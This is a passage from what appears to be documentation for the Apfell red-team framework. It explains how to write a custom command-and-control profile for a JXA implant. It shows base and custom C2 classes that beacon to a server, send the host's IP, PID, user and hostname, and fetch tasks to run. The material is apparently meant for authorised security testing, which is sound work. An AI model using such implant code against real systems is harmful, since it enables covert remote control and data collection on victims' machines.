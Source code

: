 You don't really need to concern yourself with this at the moment, but you should notice that the section at the bottom `this.uuid = "XXXX";` will get stamped out with the actual UUID for this payload.
At the end we create a new instance of this implant. The next big piece though is the baseC2:
~~~
//--------------Base C2 INFORMATION----------------------------------------
class baseC2{
	//To create your own C2, extend this class and implement the required functions
	//The main code depends on the mechanism being C2 with these functions.
	//   the implementation of the functions doesn't matter though
	//   You're welcome to add additional functions as well, but this is the minimum
	constructor(interval, baseurl){
		this.interval = interval; //seconds between callbacks
		this.baseurl = baseurl; //where to reach out to
	}
	getInterval(){
		return this.interval;
	}
	checkin(){
		//check in with c2 server
	}
	getTasking(){
		//reach out to wherever to get tasking
	}
	postResponse(){
		//output a response to a task
	}
}
~~~
{: .language-js}

You'll notice that there's nothing implemented. Bam! That's where you come into play. Your high school or college computer science teacher will probably be jumping for joy at this, but I decided to implement this with some object oriented principles. Your C2 Profile needs to implement these functions, and that's it.
This works because your profile will extend this base class and actually implement the corresponding functions. After your implementation, I stamp in the following line: `C2 = new customC2(10, "https://some.domain");` where you specify the callback interval (10 seconds in this case) and where to reach out to (`https://some.domain` in this case). The rest of the implant simply uses the `C2` variable and the expected functions to do its work.
You're free to add in more functions to help you make things more modular within your customC2 code, but they won't be directly called by the base payload.
For example, for the `Apfell/app/c2_profiles/default/apfell-jxa/default.js` file, you'll see the following:
~~~
//-------------RESTFUL C2 mechanisms ---------------------------------
class customC2 extends baseC2{
	constructor(interval, baseurl){
		super(interval, baseurl);
	}
  checkin(ip, pid, user, host){
		//get info about system to check in initially
		//needs IP, PID, user, host, payload_type
		//gets back a unique ID
		var info = {'ip':ip,'pid':pid,'user':user,'host':host,'uuid':apfell.uuid};
		//calls htmlPostData(url,data) to actually checkin
		var jsondata = this.htmlPostData("api/v1.0/callbacks/", JSON.stringify(info));
		apfell.id = jsondata.id;
		return jsondata;
	}
	getTasking(){
		// http://ip/api/v1.0/tasks/callback/{implant.id}/nextTask
		var url = this.baseurl + "api/v1.0/tasks/callback/" + apfell.id + "/nextTask";
		var task = this.htmlGetData(url);
		return JSON.parse(task);
~~~
